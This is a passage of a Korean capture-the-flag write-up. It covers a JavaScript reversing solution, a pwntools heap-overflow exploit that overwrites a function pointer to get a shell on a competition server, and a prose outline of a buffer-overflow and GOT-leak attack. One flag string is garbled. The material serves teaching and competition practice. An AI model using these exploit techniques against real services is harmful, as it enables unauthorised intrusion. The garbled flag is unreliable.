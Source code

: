 ```js
    } else if (a == 10) {
        alert(".");
        continue
    } else if (a == 11) {
        alert(".");
        continue
    } else if (a == 12) {
        alert(".");
        continue
    } else if (a >= 4 && a <= 20) {
        continue
    }
    alert(String.fromCharCode(b))
}
```
```js
var asd="";
var b=200;for(a=0;a<=20;a++){b=b+((a*b)-(a/b));if(a==0)b=70;else if(a==1)b=76;else if(a==3)b=71;else if(a==2)b=65;else if(a==4)b=123;else if(a==20)b=125;asd+=String.fromCharCode(b)}
```

flag = FLAG{ˡᐭꅭ곚삍䘐䣇눛뵼ᩎꓨᶐㆰ}

## Point to pointer! 529pt (pwn)

```
넘나 쉬운 문제 당신도 풀 수 있습니다!
nc 222.110.147.52:42632
```

힙에다 함수주소를 넣고 데이터를 입력받는다. 이때 오버플로가 발생하니까
원샷 주소로 덮은다음 쉘을 따면 된다.

```python
from pwn import *
p=remote("222.110.147.52",42632)
print p.recv()
p.sendline("\x00"*0x10+p64(0x4007a7))
print p.recv()
p.sendline("Y")

p.interactive()
```

flag = FLAG{P0InT_2_pOiNt_2_PO1t3R!}

## Factorization 889pt (pwn)

```
열심히 수련하여 샌드백을 터뜨리자!
nc 222.110.147.52 6975
```

특정 숫자를 맞춰주면 BOF를 일으킬수있다.
12의 6승으로 맞추고 puts.got를 릭하고 메인으로 다시 돌아가서
한번더 BOF로 system(/bin/sh)를 해서 쉘을 얻었다.
